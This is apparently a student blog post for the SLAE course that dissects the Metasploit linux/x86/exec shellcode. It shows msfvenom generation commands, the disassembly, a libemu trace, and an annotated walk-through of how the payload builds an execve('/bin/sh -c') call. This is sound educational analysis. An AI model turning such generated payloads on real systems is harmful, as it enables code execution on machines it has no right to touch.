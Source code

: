 ```yaml
---
layout: post
title: "SLAE Problem 5.3: Msfvenom Analysis of linux/x86/exec"
description: "Analysis of Msfvenom shellcode: linux/x86/exec"
tags: [asm, shellcode, msfvenom]
---
```



This blog post has been created for completing the requirements for the SecurityTube
Linux Assembly Expert certification:
[<http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert>](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert)

Student ID: SLAE-824

## Requirements

- Choose at least 3 shellcode samples created using Msfvenom for linux/x86
- Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode
- Present your analysis

### Analysis

For this analysis I have chosen to analyze `linux/x86/exec`. My initial
instinct is that this payload essentially just runs `execve` with
the supplied arguments. Let's see if thats how it plays out!

### The Code

First we need to see what options this payload supports:

{% highlight bash %}
msfvenom --payload linux/x86/exec --list-options

Basic options:
Name  Current Setting  Required  Description
----  ---------------  --------  -----------
CMD                    yes       The command string to execute
{% endhighlight %}

It looks as though the only basic option is the command we want to run.
Seems logical, lets generate some assembly.

{% highlight bash %}
msfvenom --payload linux/x86/exec CMD="id" -f raw | ndisasm -u -

00000000  6A0B              push byte +0xb
00000002  58                pop eax
00000003  99                cdq
00000004  52                push edx
00000005  66682D63          push word 0x632d
00000009  89E7              mov edi,esp
0000000B  682F736800        push dword 0x68732f
00000010  682F62696E        push dword 0x6e69622f
00000015  89E3              mov ebx,esp
00000017  52                push edx
00000018  E803000000        call dword 0x20
0000001D  696400575389E1CD  imul esp,[eax+eax+0x57],dword 0xcde18953
00000025  80                db 0x80
{% endhighlight %}

Lets break down the code and see what it is doing:

{% highlight bash %}
08048060 <_start>:
 ;; Place 11 in eax
 8048060:	6a 0b                	push   0xb
 8048062:	58                   	pop    eax

{% endhighlight %}

We know from previous exercises that syscall 11 is execve. We
can verify that this code actually calls execve by running
it through libemu:

{% highlight bash %}
msfvenom --payload linux/x86/exec CMD="id" -f raw | /usr/bin/sctest -vvv -S -s 10000 -G exec.dot
{% endhighlight %}

{% highlight bash %}
dot -Tpng exec.dot > exec.png
{% endhighlight %}

<img src="{% asset_path 'exec.png' %}" alt="exec.png" style="width: 500px;"/>

Sure enough we can see that it does in fact call execve as hypothesized. Let's
keep going:

{% highlight bash %}
 ;; Clear out edx by sign extending eax
 8048063:	99                   	cdq

 ;; Push 0x00000000, which is now the value of edx
 ;; onto the stack to null terminate string
 8048064:	52                   	push   edx

 ;; Push -c argument on the stack
 8048065:	66 68 2d 63          	pushw  0x632d <--- c-


 ;; Save a pointer to the argument in edi
 8048069:	89 e7                	mov    edi,esp

 ;; Push the string /bin/sh onto the stack
 804806b:	68 2f 73 68 00       	push   0x68732f <--- hs/
 8048070:	68 2f 62 69 6e       	push   0x6e69622f <--- nib/

 ;; Put a pointer to /bin/sh into ebx
 8048075:	89 e3                	mov    ebx,esp

 ;; Push 0x00000000 again onto the stack...
 8048077:	52                   	push   edx

 ;; call 0x20 is executing byte 32
 ;; from the beginning of the shellcode
 ;; byte 32 starts with 57
 8048078:	e8 a3 7f fb f7       	call   20 <_start-0x8048040>
 804807d:	69 64 00 57 53 89 e1 	imul   esp,DWORD PTR [eax+eax*1+0x57],0xcde18953
 8048084:	cd
 8048085:	80                   	.byte 0x80
{% endhighlight %}

Since the call instruction is executing code at an offset in the
shellcode our disassembler has failed us making the instructions
after the call seem random and non-sensical. libemu seems to
have gotten them right but we can also drop the bytes
`57 53 89 e1 cd 80` into our online disassembler [here](https://defuse.ca/online-x86-assembler.htm#disassembly2).
Another trick is to use a bit of perl like so:

{% highlight bash %}
perl -e 'print "\x57\x53\x89\xe1\xcd\x80"' > shellcode

ndisasm -b 32 shellcode
{% endhighlight %}


Looking at the results we get:

{% highlight bash %}
0:  57                      push   edi
1:  53                      push   ebx
2:  89 e1                   mov    ecx,esp
4:  cd 80                   int    0x80
{% endhighlight %}

These look a little more logical. The values of edi
(the pointer to the -c argument) and ebx (the pointer
to /bin/sh) are pushed onto the stack. A pointer to
those arguments are placed into ecx.

Reminding ourselves of the signature of `execve` we see:

{% highlight c %}
int execve(const char *path, char *const argv[], char *const envp[]);
{% endhighlight %}

{% highlight bash %}
We have eax as 0xb or sys call 11 (execve)
We have ebx as the string /bin/sh
We have ecx as a pointer to the function arguments,
the first being the name of the program /bin/sh
the second being -c.
We have edx as 0x00000000 which is NULL

{% endhighlight %}

We then call our `int 0x80` interupt and execute our command.

